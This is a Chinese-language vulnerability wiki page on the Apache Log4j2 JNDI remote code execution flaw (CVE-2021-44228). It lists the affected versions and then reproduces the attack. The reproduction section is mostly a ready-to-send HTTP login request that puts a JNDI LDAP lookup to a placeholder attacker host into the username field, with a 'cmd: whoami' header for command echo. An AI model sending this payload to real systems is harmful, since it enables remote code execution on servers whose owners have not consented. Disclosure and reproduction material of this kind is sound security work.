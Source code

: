 ```yaml
---
title: Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228
---
```


# Apache Log4j2 JNDI 远程命令执行漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2是一款使用非常广泛的Java日志框架。2021年12月9日，Apache Log4j2爆出存在远程代码执行漏洞，由于Apache Log4j2广泛地应用在各种Web程序中，该漏洞涉及用户量较大，危害性非常之高，漏洞影响版本为2.0~2.14.1。

## 漏洞影响

<a-checkbox checked>2.0~2.14.1</a-checkbox></br>

<a-checkbox checked>使用此依赖的JAVA应用</a-checkbox></br>

## 网络测绘

<a-checkbox checked>暂无确切语法</a-checkbox></br>

## 漏洞复现

参数点发送请求

![img](/assets/PeiQi-Wiki/img/1639112758169-0e01d095-78c9-475c-94bc-9a05ae161b7f.png)

```go
POST /api/2.0/login HTTP/1.1
Host:
Cookie: JSESSIONID_AV=567CEDA964EE4D5DA8B7FC8C90912B01
Content-Length: 86
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
cmd: whoami
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"${jndi:ldap://xxx.xxx.xxx.xxx:1389/Basic/TomcatEcho}","password":"admin"}
```

![img](/assets/PeiQi-Wiki/img/1639112868435-e938cac8-d736-466c-acc0-f94fae3ef688.png)
